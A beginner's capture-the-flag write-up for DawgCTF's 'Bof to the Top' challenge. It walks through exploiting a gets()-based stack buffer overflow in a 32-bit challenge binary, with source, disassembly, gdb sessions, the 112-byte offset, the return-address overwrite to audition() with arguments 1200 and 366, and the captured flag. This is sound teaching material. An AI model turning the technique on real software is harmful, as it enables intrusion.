



# Bof to the Top

Alright, this was my first CTF, so this was the most difficult challenge for me. I wouldn't be able to solve it weren't it for the help from the nice admins on the discord server. They were very patient with me, and answered every single question I had regarding this challenge. I was an absolute beginner while doing this challenge, and they helped me every step of the way. I knew none of this before! So yeah, kudos to them! So this is more of a writeup of what I learned, really. This challenge actually took me like 10 hours to solve, so don't feel like you can't do anything like this!

We are given an [executable](bof) and its [source code](bof.c). In the source code of the file, `audition()` prints out the flag. That's the function that we need to execute! How the heck are we going to do that?

Well, we can use another buffer overflow. There are two arrays we can dump data into.

```c
void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}
```

We have `name` and `song`, which are both 50 bytes each, but because it uses `gets()`, there is no limit to how much we can write.

In the source code of the binary, we are told how it's compiled:

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof
```

It compiles to a 32-bit executable, and it doesn't use PIE, which is good, because the memory addresses of each instruction is the same on every machine.

If you don't have the source code of a binary, you can view info about it using this command:

```
$ file bof
bof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5709a36b6f4bc9dc8eba2c438456ce72bb319d93, for GNU/Linux 3.2.0, not stripped
```

To get a closer look at the binary, I disassembled it using this command:

```
$ objdump -d -M intel bof > bof.asm
```

This is the function in the assembly code we need to focus on:

```
080491c4 <get_audition_info>:
 80491c4:	55                   	push   ebp
 80491c5:	89 e5                	mov    ebp,esp
 80491c7:	53                   	push   ebx
 80491c8:	83 ec 74             	sub    esp,0x74
 80491cb:	e8 f0 fe ff ff       	call   80490c0 <__x86.get_pc_thunk.bx>
 80491d0:	81 c3 30 2e 00 00    	add    ebx,0x2e30
 80491d6:	83 ec 0c             	sub    esp,0xc
 80491d9:	8d 83 1a e0 ff ff    	lea    eax,[ebx-0x1fe6]
 80491df:	50                   	push   eax
 80491e0:	e8 5b fe ff ff       	call   8049040 <puts@plt>
 80491e5:	83 c4 10             	add    esp,0x10
 80491e8:	83 ec 0c             	sub    esp,0xc
 80491eb:	8d 45 c6             	lea    eax,[ebp-0x3a]
 80491ee:	50                   	push   eax
 80491ef:	e8 3c fe ff ff       	call   8049030 <gets@plt>
 80491f4:	83 c4 10             	add    esp,0x10
 80491f7:	83 ec 0c             	sub    esp,0xc
 80491fa:	8d 83 2c e0 ff ff    	lea    eax,[ebx-0x1fd4]
 8049200:	50                   	push   eax
 8049201:	e8 3a fe ff ff       	call   8049040 <puts@plt>
 8049206:	83 c4 10             	add    esp,0x10
 8049209:	83 ec 0c             	sub    esp,0xc
 804920c:	8d 45 94             	lea    eax,[ebp-0x6c]
 804920f:	50                   	push   eax
 8049210:	e8 1b fe ff ff       	call   8049030 <gets@plt>
 8049215:	83 c4 10             	add    esp,0x10
 8049218:	90                   	nop
 8049219:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 804921c:	c9                   	leave  
 804921d:	c3                   	ret   
```

Look at `0x80491ef` and `0x8049210` in the code, these are the calls that are reading input, and dumping it into the memory locations of the two character arrays.

If only I looked up that function in the first place, as it would have made this challenge much easier:

[](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm)

We now know that the pointer to the buffer array is the first parameter in the function `gets()`

But where do we write the pointer?

Operands are stored on the stack. Look at the below code, I added comments for better readability.

```
8049206:	83 c4 10             	add    esp,0x10 ## Reserve 4 bytes on the stack
8049209:	83 ec 0c             	sub    esp,0xc  ## I don't know why, it just does.
804920c:	8d 45 94             	lea    eax,[ebp-0x6c] ## Get the address
804920f:	50                   	push   eax ## Push the address to the stack.
8049210:	e8 1b fe ff ff       	call   8049030 <gets@plt> ## Call the function.
```

Well, the address is stored in `eax` right before it is pushed onto the stack, at `0x804920f`

So, let's set up a breakpoint in gdb at that exact address and observe the contents of the registers.

If you're curious, `b` is short for `breakpoint`, `r` is short for `run`, and `i r` is short for `info registers`.

```
$ gdb bof
...
(gdb) b *0x804920f
Breakpoint 1 at 0x804920f
(gdb) r
Starting program: /home/jordan/CTF-writeups/DawgCTF2020/bof-to-the-top/bof
Welcome to East High!
We're the Wildcats and getting ready for our spring musical
We're now accepting signups for auditions!
What's your name?
asdf
What song will you be singing?

Breakpoint 1, 0x0804920f in get_audition_info ()
(gdb) i r
eax            0xffffd26c          -11668
ecx            0xffffffff          -1
edx            0xffffffff          -1
ebx            0x804c000           134529024
esp            0xffffd254          0xffffd254
ebp            0xffffd2d8          0xffffd2d8
esi            0xf7f93000          -134664192
edi            0xf7f93000          -134664192
eip            0x804920f           0x804920f <get_audition_info+75>
eflags         0x292               [ AF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb)
```

Well, looks like the address of `char song[50]` is at `0xffffd26c`, because that's the value stored in `eax`. (I'm not focusing on the name array, I only need to do a buffer overflow on one or the other, so I chose to use song)

That's great! Now we know the exact place we're writing to! Question is, what do we write?

Well, what about that `ret` statement at the end of `get_audition_info`?

[](http://www.cs.virginia.edu/~evans/cs216/guides/x86.html)
[](http://www.cs.virginia.edu/~evans/cs216/guides/x86.html)

Looks like it pulls off an address off of the stack, and the jumps to that address. Can we use that?

Let's use gdb to get the stack pointer right before `ret` is called in `get_audition_info`.

```
........

8049215:	83 c4 10             	add    esp,0x10
8049218:	90                   	nop
8049219:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
804921c:	c9                   	leave  
804921d:	c3                   	ret   
```

`0x804921d` is our address. Let's set up a breakpoint!

```
(gdb) b *0x804921d
Breakpoint 1 at 0x804921d
(gdb) r
Starting program: /home/jordan/CTF-writeups/DawgCTF2020/bof-to-the-top/bof
Welcome to East High!
We're the Wildcats and getting ready for our spring musical
We're now accepting signups for auditions!
What's your name?
asdf
What song will you be singing?
jkl;

Breakpoint 1, 0x0804921d in get_audition_info ()
```

Good, now let's print out the registers!

```
(gdb) i r
eax            0xffffd26c          -11668
ecx            0xf7f93580          -134662784
edx            0xffffd270          -11664
ebx            0x0                 0
esp            0xffffd2dc          0xffffd2dc
ebp            0xffffd2e8          0xffffd2e8
esi            0xf7f93000          -134664192
edi            0xf7f93000          -134664192
eip            0x804921d           0x804921d <get_audition_info+89>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb)
```

`eax` is the same as before, so we can verify that's right. Now, `esp` is the stack pointer. Looks like `0xffffd2dc` is the address we want to overwrite!

I made a [python script](sol.py) to do this for me, because I don't think it's possible to type in a buffer overflow on a keyboard, anyways.

So, when we connect to the server, we have to send out 112 bytes to get to the address in the stack that is read when the `ret` statement is called.

Then, we can overwrite the return address with the function `audition`, which you remember is what prints the flag.

```c
void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}
```

The `audition` function is at `0x08049182` when you look at [bof.asm](bof.asm).

```
08049182 <audition>:
 8049182:	55                   	push   ebp
 8049183:	89 e5                	mov    ebp,esp
 8049185:	53                   	push   ebx
 8049186:	83 ec 14             	sub    esp,0x14
 8049189:	e8 ff 00 00 00       	call   804928d <__x86.get_pc_thunk.ax>
 804918e:	05 72 2e 00 00       	add    eax,0x2e72
 8049193:	8d 90 08 e0 ff ff    	lea    edx,[eax-0x1ff8]
 8049199:	89 55 f4             	mov    DWORD PTR [ebp-0xc],edx
 804919c:	81 7d 08 b0 04 00 00 	cmp    DWORD PTR [ebp+0x8],0x4b0
 80491a3:	75 19                	jne    80491be <audition+0x3c>
 80491a5:	81 7d 0c 6e 01 00 00 	cmp    DWORD PTR [ebp+0xc],0x16e
 80491ac:	75 10                	jne    80491be <audition+0x3c>
 80491ae:	83 ec 0c             	sub    esp,0xc
 80491b1:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 80491b4:	89 c3                	mov    ebx,eax
 80491b6:	e8 95 fe ff ff       	call   8049050 <system@plt>
 80491bb:	83 c4 10             	add    esp,0x10
 80491be:	90                   	nop
 80491bf:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 80491c2:	c9                   	leave  
 80491c3:	c3                   	ret    
```

We just overwrite the return address with `0x08049182`, where `audition` is located at.

Remember those 4 bytes that were reserved for some reason?

```
8049206:	83 c4 10             	add    esp,0x10 ## Reserve 4 bytes on the stack
8049209:	83 ec 0c             	sub    esp,0xc  ## I don't know why, it just does.
```

Yeah, we have to overwrite that, too.

Let's look at `audition()` again.

```c
void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}
```

It takes 2 parameters, `time` and `room_num`, which have to be `1200` and `366` in order for the flag to be printed.

So, we write those values, and we're done!

We just have to write one last line break, and the flag should print!

The final solution script is [here](sol.py). You can read it if you want to.

I highly recommend learning how to use [pwntools](https://docs.pwntools.com/en/stable/about.html). It's a python library that a lot of people use in CTFs. And it's really easy to use.

It's [really easy to learn](https://docs.pwntools.com/en/stable/intro.html), and it makes everything much easier.

To import, you can just put `from pwn import *` at the beginning of your script.

It's completely free, I'm not being sponsored or anything, but I just think it's a really cool library that you may like to use.

```
$ py sol.py
[+] Starting local process './bof': pid 12899
Welcome to East High!

We're the Wildcats and getting ready for our spring musical

We're now accepting signups for auditions!

What's your name?

What song will you be singing?

DawgCTF{wh@t_teAm?}

```

Flag: `DawgCTF{wh@t_teAm?}`
